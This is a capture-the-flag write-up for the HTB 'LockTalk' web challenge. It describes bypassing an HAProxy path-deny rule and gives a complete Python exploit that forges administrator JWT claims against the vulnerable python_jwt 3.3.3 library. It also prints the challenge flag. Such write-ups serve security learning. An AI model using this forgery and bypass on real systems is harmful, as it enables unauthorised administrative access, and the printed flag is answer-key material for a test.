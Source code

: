 ## **Description**
In "The Ransomware Dystopia," LockTalk emerges as a beacon of resistance against the rampant chaos inflicted by ransomware groups. In a world plunged into turmoil by malicious cyber threats, LockTalk stands as a formidable force, dedicated to protecting society from the insidious grip of ransomware. Chosen participants, tasked with representing their districts, navigate a perilous landscape fraught with ethical quandaries and treacherous challenges orchestrated by LockTalk. Their journey intertwines with the organization's mission to neutralize ransomware threats and restore order to a fractured world. As players confront internal struggles and external adversaries, their decisions shape the fate of not only themselves but also their fellow citizens, driving them to unravel the mysteries surrounding LockTalk and choose between succumbing to despair or standing resilient against the encroaching darkness.
<br></br>
In `config.py` we can see that the token was generated using RSA so we can't bruteforce the token

```py
JWT_SECRET_KEY = jwk.JWK.generate(kty='RSA', size=2048)
```
In requirements.txt we can see that it's using an old version of JWT `python_jwt==3.3.3`, Which is vulnerable :L according to this : `https://github.com/advisories/GHSA-5p8v-58qm-c7fp`

<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/HTB_cyber_apocalypse/WEB/images/4.PNG">
<br></br>
Let's open the Site now 
<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/HTB_cyber_apocalypse/WEB/images/5.PNG">
<br></br>
If we tried to generate a token using `/api/v1/get_ticket` it will return `403` because of the configurations in ``haproxy.cfg``

```http-request deny if { path_beg,url_dec -i /api/v1/get_ticket }```

We can bypass this if we added another `/`  to make it like this `//api/v1/get_ticket`
or based on this : `https://www.cvedetails.com/cve/CVE-2023-45539/`

we can just add a fragment # (encoded) `/api/v1/get_ticket#`

both will work, After getting the JWT, We can that we have a role `guest` let's forge it to `Administrator`
<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/HTB_cyber_apocalypse/WEB/images/6.PNG">
<br></br>
Exploit: 
```py
from requests import *
import re
from json import loads, dumps
from jwcrypto.common import base64url_decode, base64url_encode
import argparse
r=get("http://83.136.254.223:41786//api/v1/get_ticket")
js=r.json()

ticket_value = js.get('ticket: ', None)

token=ticket_value
claim="role=administrator"

# Split JWT in its ingredients
[header, payload, signature] = token.split(".")


# Payload is relevant
parsed_payload = loads(base64url_decode(payload))
print(f"[+] Decoded payload: {parsed_payload}")

# Processing of the user input and inject new claims
try:
    claims = claim.split(",")
    for c in claims:
        key, value = c.split("=")
        parsed_payload[key.strip()] = value.strip()
except:
    print("[-] Given claims are not in a valid format")
    exit(1)

# merging. Generate a new payload

fake_payload = base64url_encode((dumps(parsed_payload, separators=(',', ':'))))


# Create a new JWT Web Token
new_payload = '{"  ' + header + '.' + fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"}'
print(new_payload)

url="http://83.136.254.223:41786/api/v1/flag"
r=get(url,headers={"Authorization":new_payload})
print(r.text)
#{"message":"HTB{h4Pr0Xy_n3v3r_D1s@pp01n4s}"}
```
